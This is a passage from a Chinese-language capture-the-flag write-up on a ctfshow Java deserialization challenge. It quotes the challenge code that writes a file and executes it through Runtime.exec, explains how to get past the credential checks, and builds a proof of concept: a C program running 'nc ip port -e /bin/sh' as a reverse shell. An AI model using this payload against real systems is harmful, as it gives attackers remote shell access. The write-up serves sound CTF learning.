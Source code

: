 ```java  
        byte[] temp = new byte[1];    
        while((in.read(temp))!=-1){    
            fileOutputStream.write(temp);    
        }    
    
        fileOutputStream.close();    
        in.close();    
    
    }    
    break;    
}  
```  
第二个点，绕过`if`条件，会执行`shellcode`这个变量  
```java  
case 2:{    
    
    ObjectInputStream.GetField gf = in.readFields();    
    String username = (String) gf.get("username", null);    
    String password = (String) gf.get("password",null);    
    username = username.replaceAll("[\\p{C}\\p{So}\uFE00-\uFE0F\\x{E0100}-\\x{E01EF}]+", "")    
            .replaceAll(" {2,}", " ");    
    password = password.replaceAll("[\\p{C}\\p{So}\uFE00-\uFE0F\\x{E0100}-\\x{E01EF}]+", "")    
            .replaceAll(" {2,}", " ");    
    User var3 = new User(username,password);    
    User admin = new User(OBJECTNAME,SECRET);    
    if(var3 instanceof  User){    
        if(OBJECTNAME.equals(var3.getUsername())){    
            throw  new RuntimeException("object unserialize error");    
        }    
        if(SECRET.equals(var3.getPassword())){    
            throw  new RuntimeException("object unserialize error");    
        }    
        if(var3.equals(admin)){    
            Runtime.getRuntime().exec(shellCode);    
        }    
    }else{    
        throw  new RuntimeException("object unserialize error");    
    }    
    break;    
}  
```  
`shellcode`  
`private static  String shellCode="chmod +x ./"+OBJECTNAME+" && ./"+OBJECTNAME;`  
会赋予`ctfshow`这个文件执行权限，并且执行  
现在的思路就是写入一个`elf`文件，并且执行  
构造poc  
本地写一个`c`文件程序  
```c  
#include<stdlib.h>    
 int main() {    
    system("nc ip port -e /bin/sh");    
    return 0;    
}  
```  
编译一下`gcc shellcode.c -o shellcode`  
接着再把前四个字节删掉  
利用反序列化写入，在此之前，还有几个`if`条件需要绕过  
```java  
if(var3 instanceof  User){    
	if(OBJECTNAME.equals(var3.getUsername())){    
		throw  new RuntimeException("object unserialize error");    
	}    
	if(SECRET.equals(var3.getPassword())){    
		throw  new RuntimeException("object unserialize error");    
```